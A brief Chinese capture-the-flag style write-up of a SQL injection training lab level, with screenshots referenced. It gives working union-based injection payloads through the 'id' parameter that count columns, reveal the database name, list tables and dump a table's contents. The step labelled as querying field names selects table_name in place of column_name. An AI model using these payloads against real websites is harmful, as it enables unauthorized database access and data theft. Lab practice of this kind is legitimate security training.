 # 第二关
# series-2
![image](./images/image11.png)

跟上一关差不多
不过是数字型
构造
?id=1 order by 5 --+
![image](./images/image12.png)
错误回显
3字段
?id=1 order by 3 --+
![image](./images/image13.png)
无错误回显
3字段
查询数据库名
?id=-1 union select 1,2,database() --+
![image](./images/image14.png)
得到数据库名
security

查询表名
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
![image](./images/image15.png)
查询字段名
?id=-1 union select 1,2,group_concat(table_name) from information_schema.columns where table_name='referers'--+
查询内容
?id=-1 union select 1,group_concat(id,referer),group_concat(ip_address) from referers --+
![image](./images/image16.png)
内容啥都没有
过关～:|


